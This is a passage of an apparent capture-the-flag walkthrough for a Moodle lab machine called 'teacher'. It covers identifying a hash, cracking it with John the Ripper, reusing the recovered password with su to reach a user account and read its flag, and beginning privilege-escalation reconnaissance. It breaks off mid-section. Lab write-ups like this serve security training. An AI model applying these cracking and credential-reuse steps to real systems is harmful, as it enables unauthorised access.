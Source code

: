    #	  \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \	    \_\ \__ \ \ \_\ \	   #
   #	   \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/	   #
   #	    \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.1 #
   #								 By Zion3R #
   #							www.Blackploit.com #
   #						       Root@Blackploit.com #
   #########################################################################

   -------------------------------------------------------------------------
 HASH: 7a860966115182402ed06375cf0a22af

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

~~~

{% endhighlight %}

Clack this hash with John the Ripper. The password is "expelled".
{% highlight shell %}

{% endhighlight %}

We can use this credential "giovanni:expelled" for su command<br>
As usuall, user.txt is in a home directory.
{% highlight shell %}
www-data@teacher:/var/www/html/moodle$ su giovanni
su giovanni
Password: expelled

giovanni@teacher:/var/www/html/moodle$ cd
cd
giovanni@teacher:~$ cat user.txt
cat user.txt
fa9ae187462530e841d9e61936648fa7
{% endhighlight %}

### 3. Getting Root
if we execute following command, we can assume automatic process is running and giving some modification for this directory by its date.
{% highlight shell %}
giovanni@teacher:~/work$ ls -la
ls -la
total 16
drwxr-xr-x 4 giovanni giovanni 4096 Apr 26 21:28 .
drwxr-x--- 4 giovanni giovanni 4096 Nov  4 19:47 ..
drwxrwxrwx 3 giovanni giovanni 4096 Apr 26 21:28 courses
drwxrwxrwx 3 giovanni giovanni 4096 Jun 27  2018 tmp
{% endhighlight %}

At the same time, we can find an interesting binary in "/usr/bin".
~~~